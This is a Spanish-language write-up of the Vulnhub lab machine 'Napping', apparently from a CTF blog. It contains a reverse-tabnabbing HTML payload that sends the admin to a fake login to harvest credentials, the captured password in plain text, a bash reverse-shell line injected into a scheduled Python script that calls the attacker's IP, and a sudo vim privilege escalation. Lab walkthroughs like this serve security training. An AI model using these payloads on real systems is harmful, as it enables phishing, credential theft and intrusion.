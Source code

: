 ```yaml
---
title: Vulnhub - Napping
author: cotes
date: 2023-09-06 17:51:00 +0800
categories: [Writeup, Vulnhub, Easy]
tags: [Linux]
math: true
mermaid: true
image:
  path: /assets/images/Vulnhub/Easy/Napping/logo.jpeg
  lqip: data:image/webp;base64,UklGRpoAAABXRUJQVlA4WAoAAAAQAAAADwAABwAAQUxQSDIAAAARL0AmbZurmr57yyIiqE8oiG0bejIYEQTgqiDA9vqnsUSI6H+oAERp2HZ65qP/VIAWAFZQOCBCAAAA8AEAnQEqEAAIAAVAfCWkAALp8sF8rgRgAP7o9FDvMCkMde9PK7euH5M1m6VWoDXf2FkP3BqV0ZYbO6NA/VFIAAAA
  alt: Napping Machine Logo
---
```


Máquina Linux de nivel **Easy** de Vulnhub.

### Fase de Reconocimiento 🧣

Identificamos la dirección IP de la **`Máquina Napping`**

```bash
root@kali> arp-scan -I eth0 --local --ignoredups

<SNIP>
192.168.100.25  08:00:27:49:ee:4d       PCS Systemtechnik GmbH
```

a. Enumeramos los puertos que están abiertos.

* **`nmap -p- -sS -Pn -n <IP> -oG puertos`**

  ![](/assets/images/Vulnhub/Easy/Napping/01-ports.png)

b. Vemos las versiones de los servicios que se están ejecutando en los puertos.

* **`nmap -p<Ports> -sCV <IP> -oN versiones`**

  ![](/assets/images/Vulnhub/Easy/Napping/02-versions.png)

c. Al visitar la página web nos creamos una nueva cuenta para autenticarnos en el servicio

![](/assets/images/Vulnhub/Easy/Napping/03-web.png)

> Página web después de autenticarnos.

* Vemos que la página dice que podemos promocionar un blog, el cual al colocar una URL, el administrador la verá, esto nos da la idea de un **`Cookie Hijacking`**, pero no funcionará ya que nos obtendremos la cookie.

* Lo que podemos hacer es **engañar** al administrador para que se loguee en una página idéntica al login del servicio y de esta forma podremos obtener sus credenciales, nos basamos en este [post](https://www.jitbit.com/alexblog/256-targetblank---the-most-underestimated-vulnerability-ever/)

![](/assets/images/Vulnhub/Easy/Napping/04-flaw.png)

> Explicación del vector a usar.

d. Estructuramos todo de acuerdo al dibujo anterior

1. Creamos nuestro index.html y lo hosteamos con **`python -m http.server 80`**

    ```html
    <html>
        <script>
            window.opener.location='http://<IP Atacante>:4444/fake_login.html';
        </script>	
    </html>
    ```

2. Copiamos el código fuente (**`http://<IP Napping>/index.php`**) del login, lo guardamos y lo hosteamos con **`nc -lvnp 4444`**

3. Ahora, 'promocionamos' nuestro link en la página web de la víctima

![](/assets/images/Vulnhub/Easy/Napping/05-steps.png)

> Damos clic en **Submit -> Here**

* Esperamos un poco y veremos credenciales del usuario **daniel**

![](/assets/images/Vulnhub/Easy/Napping/06-credentials.png)

* Tenemos que **`Url decodear`** la contraseña ya que **%40** es @

4. Estas credenciales (daniel:C@ughtm3napping123) nos sirven para autenticarnos en el servicio SSH

```bash
root@kali> ssh daniel@<IP Napping>
```

### Escalada de Privilegios 💹

a. Vemos que estamos en el grupo **administrators** y que podemos modificar un fichero

```bash
daniel@napping:~$ id
uid=1001(daniel) gid=1001(daniel) groups=1001(daniel),1002(administrators)
daniel@napping:~$ find / -group administrators 2>/dev/null | xargs ls -la
-rw-rw-r-- 1 adrian administrators 492 Aug 21 19:57 /home/adrian/query.py
```

* Este archivo guarda cada cierto tiempo la hora de consulta del servicio web, para saber si está levantado o no.
* El dueño de este archivos es **`adrian`**, así que, todo comando que ejecutemos en este archivo lo haremos como este usuario, por lo que, nos enviaremos una reverse shell a nuestro equipo.

b. Inyectamos en el archivo el siguiente código

```bash
import os

os.system("/bin/bash -c '/bin/bash -i >& /dev/tcp/<IP Atacante>/4444 0>&1'")
```

* Nos ponemos en escucha en nuestro equipo de atacante y esperamos a recibir al shell

    ```bash
    root@kali> nc -lvnp 4444
    <SNIP>
    adrian@napping:~$
    ```


c. Listamos privilegios sudoers que tengamos 

```bash
adrian@napping:~$ sudo -l
<SNIP>
    (root) NOPASSWD: /usr/bin/vim
```

* Escalamos privilegios como nos menciona [Gtfobins](https://gtfobins.github.io/gtfobins/vim/#sudo)

    ```bash
    adrian@napping:~$ sudo vim -c ':!/bin/bash'

    root@napping:/home/adrian#
    ```